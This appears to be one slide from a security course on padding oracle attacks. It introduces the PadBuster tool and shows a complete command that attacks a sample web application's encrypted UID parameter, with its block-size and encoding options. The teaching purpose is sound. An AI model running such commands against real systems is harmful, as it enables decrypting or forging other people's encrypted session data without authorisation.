

# Automate the PO Attack By PadBuster

An open source tool by Brian Holyfield
https://github.com/GDSSecurity/PadBuster
Written in Perl, thus requiring the Perl environment.
Attack the previous example:
Separated into two lines

URL
padBuster.pl http://sampleapp/home.jsp?UID=7B216A634951170FF851D6CC68FC9537858795A28ED4AAC6

7B216A634951170FF851D6CC68FC9537858795A28ED4AAC6      8            -encoding 2

Encrypted Sample
Block Size
0: Base64 (default)
1: Lowercase HEX ASCII
2: Uppercase HEX ASCII
22